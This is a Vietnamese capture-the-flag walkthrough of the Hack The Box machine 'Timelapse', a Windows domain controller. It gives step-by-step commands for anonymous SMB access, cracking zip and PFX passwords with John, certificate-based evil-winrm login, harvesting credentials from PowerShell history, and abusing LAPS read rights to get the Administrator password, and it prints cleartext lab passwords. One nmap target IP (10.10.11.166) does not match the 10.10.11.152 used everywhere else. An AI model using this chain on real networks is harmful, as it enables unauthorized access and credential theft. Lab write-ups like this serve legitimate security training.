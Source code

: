# Timelapse

## Synopsis

Timelapse là một Easy Windows machine liên quan đến việc vào một share SMB có thể truy cập công khai chứa một file zip có key PFX. File zip này yêu cầu password, có thể crack bằng cách sử dụng John. Giải nén file zip cho thấy nó chứa một file PFX được mã hóa bằng password, cũng có thể được thu thập sử dụng John bằng cách chuyển đổi file PFX sang định dạng hash mà John có thể đọc được. Từ file PFX, có thể trích xuất certificate SSL và private key được sử dụng để đăng nhập bằng WinRM. Sau khi xác thực, phát hiện ra một file history PowerShell chứa thông tin đăng nhập cho user `svc_deploy`. Liệt kê người dùng cho thấy `svc_deploy` là một phần của group có tên `LAPS_Readers`. Group `LAPS_Readers` có khả năng quản lý password trong LAPS, cho phép bất kỳ user nào từ group này đọc password local cho các machine trong domain, do đó, bằng cách lạm dụng sự tin cậy này, lấy được password cho Administrator và có được session WinRM.

### Skill Required

- Enum

- Crack password

- Hiểu biết cơ bản về Windows

### Skill Learned

- Public SMB Share

- LAPS Privilege Escalation

## Enumeration

### Nmap

Bắt đầu bằng cách scan các port mở bằng `Nmap`.

```
ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.166 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.10.11.166
```

![alt text](image.png)

Output của Nmap hiển thị nhiều port mở, tên machine là `dc01` và tên domain là `timelapse.htb`. Nhận thấy SMB đang mở nên xác minh xem có thể truy cập anonymous vào bất kỳ share nào không.

### PFX file

Để xem các share SMB khả dụng, sử dụng command sau.

```
smbclient -L //10.10.11.152/
```

![alt text](image-1.png)

Output ở trên cho thấy có một share có tên `Shares`, có thể truy cập mà không cần sử dụng bất kỳ thông tin xác thực nào.

```
smbclient //10.10.11.152/Shares
```

![alt text](image-2.png)

Tìm thấy hai folder có tên là `Dev` và `HelpDesk`. Trong folder `Dev`, tìm thấy một file zip có tên là `winrm_backup.zip`. Việc giải nén file này yêu cầu password hiện không có. Cố gắng crack password bằng công cụ crack hash `John`, nhưng trước tiên sử dụng tiện ích `zip2john` để chuyển đổi file zip thành định dạng hash.

```
zip2john winrm_backup.zip > zip.john
john zip.john -wordlist:/usr/share/wordlists/rockyou.txt
```

![alt text](image-3.png)

Output là một file PFX chứa chứng chỉ SSL ở định dạng `PKCS#12` và private key. File PFX có thể được WinRM sử dụng để đăng nhập mà không cần mật khẩu. Trích xuất chúng từ file.

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
```

![alt text](image-4.png)

Output ở trên cho thấy cần một password khác với `supremelegacy`. Sử dụng tiện ích `pfx2john`, chuyển đổi file `pfx` thành hash format rồi sử dụng `John` để crack password. Sử dụng command sau, có thể crack thành công password vào file `pfx`.

```
python2 /usr/share/john/pfx2john.py legacyy_dev_auth.pfx > pfx.john
john pfx.john -wordlist:/usr/share/wordlists/rockyou.txt
```

![alt text](image-5.png)

```
LƯU Ý: Đối với những người sử dụng Python3, xóa b' và ' khỏi output của script Python để đảm bảo John đọc đúng hash.
```

Sau khi crack được password, trích xuất certificate SSL và private key file pfx bằng các command sau.

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem
```

## Exploitation

### Foothold

Vì đã giải mã file `pfx` và tạo key và cert hợp lệ, có thể thử đăng nhập thông qua WinRM. Trong output của lệnh Nmap, có thể thấy port 5986 đang mở, thường được WinRM sử dụng nhưng sử dụng SSL thay vì các kết nối không được mã hóa. Vì `Evil-WinRM` cho phép truyền key và cert bằng flag `-c` và `-k` nên có thể truyền cert, key và xác thực với target.

Sau khi đăng nhập, thực hiện một số enum thủ công để xem liệu có thể nâng cao đặc quyền bằng cách kiểm tra history command hay không. Làm như vậy sẽ hiển thị thông tin đăng nhập mới.

```
evil-winrm -i 10.10.11.152 -c cert.pem -k key.pem -S
whoami
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

![alt text](image-6.png)

Sử dụng thông tin đăng nhập mới, có thể đăng nhập thông qua `Evil-WinRM` bằng command sau.

```
evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
```

Khi đăng nhập, có thể kiểm tra xem `svc_deploy` là member của group nào.

```
net user svc_deploy
```

![alt text](image-7.png)

### Privilege Escalation

Output của command trước cho thấy `svc_deploy` là một phần của group `LAPS_Readers`. "Local Administrator Password Solution" (LAPS) được sử dụng để quản lý password account local của máy tính Active Directory. Có một mô-đun PowerShell có thể được sử dụng để lấy lại password này có thể được tìm thấy trên github có tên là AdmPwd.PS. Nó có thể được tải lên bằng `Evil-WinRM` bằng lệnh sau.

```
upload AdmPwd.PS
```

![alt text](image-8.png)

Sau khi tải mô-đun lên, có thể kiểm tra object nào có thể quản lý LAPS bằng cách sử dụng command sau.

```
Find-AdmPwdExtendedRights -identity *
```

![alt text](image-9.png)

Từ output, có thể thấy Domain Controllers. Xem những người giữ quyền để xem có thể quản lý password hay không. Thực hiện việc này bằng cách sử dụng command sau.\

```
Find-AdmPwdExtendedRights -identity 'Domain Controllers' | select-object ExtendedRightHolders
```

![alt text](image-10.png)

Output của command trước đó cho thấy group LAPS_Readers có quyền ủy quyền trên Domain Controllers cho phép đọc mật khẩu của user trong object này. Lấy lại password bằng cách sử dụng command sau.

```
get-admpwdpassword -computername dc01 | Select password
```

![alt text](image-11.png)

Thử xác thực thông qua `Evil-WinRM` bằng thông tin đăng nhập mới bằng command sau.

```
evil-winrm -i 10.10.11.152 -u administrator -p '/1B@QZe3{BAAwzs%KY$pTb7d' -S
```

![alt text](image-12.png)

Có một shell với tư cách là `administrator` và có thể đọc root flag.